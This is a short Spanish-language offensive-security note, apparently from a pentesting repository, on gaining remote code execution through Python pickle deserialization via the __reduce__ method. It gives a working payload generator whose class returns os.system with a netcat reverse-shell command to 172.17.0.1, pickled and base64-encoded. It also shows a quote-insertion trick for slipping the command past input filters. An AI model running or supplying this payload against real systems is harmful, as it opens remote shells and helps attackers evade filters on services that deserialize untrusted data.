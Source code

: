 Si nos encontraramos frente a un serial realizado con pickle podríamos obtener rce aprovechando la función "__reduce__".

Documentación:

            https://docs.python.org/3/library/pickle.html#object.__reduce__

### RCE

Reduce devuelve una tupla que comprende:
- Un objeto invocable que será llamado para crear la versión inicial del objeto
- Una tupla de argumentos para el objeto invocable.

Esto quiere decir que si el objeto se encuentra serializado, al momendo de la deserialización, si el objeto tiene definida la función  reduce, será usado para reestablecer el objeto original.

Podemos abusar de esto para que devuelva un objeto invocable con parametros de ejecución de comandos.

Podríamos crear una clase que llame a reduce pidiendole que ejecute comandos en el sistema y pasandole el comando dentro de la tupla:

                        import pickle
                        import base64
                        import os
                        
                        class RCE:
                            def __reduce__(self):
                                return os.system, ("nc -nv 172.17.0.1 9999 -e /bin/sh",)
                        
                        r = RCE()
                        p = pickle.dumps(r)
                        b = base64.b64encode(p)
                        print(b.decode())

### Extra:

Podriamos encontrarnos tanto en blackbox como en whitebox que los objetos, al ser deserializados tengan filtros. Deberemos probar también medidas que permitan pasarlos. Ej:

Agregar las comillas entre los datos plausibles de ser eliminados por los filtos:

            n''c -nv 172.17.0.1 9999 -e /bin/s''h

Más info en el módulo de command injection de este repo
